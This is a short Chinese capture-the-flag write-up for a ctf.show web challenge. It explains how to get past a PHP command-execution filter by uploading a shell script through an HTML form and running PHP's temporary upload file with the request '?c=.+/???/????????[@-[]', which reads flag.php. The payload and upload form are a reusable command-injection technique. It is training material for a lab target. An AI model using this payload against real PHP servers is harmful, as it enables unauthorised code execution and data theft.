

# 知识点
知识点与web55相同，主要详细讲解思路
# 思路
我们知道shell能够通过. file 来执行任意脚本文件<br />所以我们写一个上传文件的页面
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://605c87f0-67c2-4161-a2a6-d8b2544f76c6.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
上传的文件php回保存在临时的文件tmp目录中以php再加上六位随机大小写字母命名,当前脚本执行完后，上传的临时文件便会被删除<br />我们通过抓包抓取上传文件的请求报文<br />修改目录请求为如下，来通过通配符尝试匹配文件
```php
/?c=.+/???/????????[@-[] 
```
修改文件内容,#!/bin/sh表示文件执行shell脚本
```

#!bin/sh

cat flag.php
```
因为文件命名的大小写是随机的，所以可能要多尝试请求几次才能拿到flag.php的回显<br />
